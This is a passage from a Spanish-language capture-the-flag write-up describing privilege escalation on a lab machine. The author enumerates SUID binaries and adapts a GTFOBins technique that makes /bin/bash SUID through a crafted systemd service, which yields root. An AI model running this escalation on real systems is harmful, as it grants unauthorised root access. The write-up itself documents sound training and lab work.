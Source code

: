 
# Escalada de privilegios

Ahora solo nos queda convertirnos en *root* y conseguir la *flag* que nos falta, para ello se me ocurre buscar binarios en el sistema con permisos **SUID** para posteriormente con ayuda de [gtfobins](https://gtfobins.github.io/) poder abusar de ellos.

```bash
find / -perm -4000 2>/dev/null
```

![20250604194756.png](/assets/media/20250604194756.png)

De todos estos, me llama la atención el de `systemctl`.

Viendo lo que nos dice *gtfobins*, modificamos el archivo para nuestro contexto de la siguiente manera:

```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod u+s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
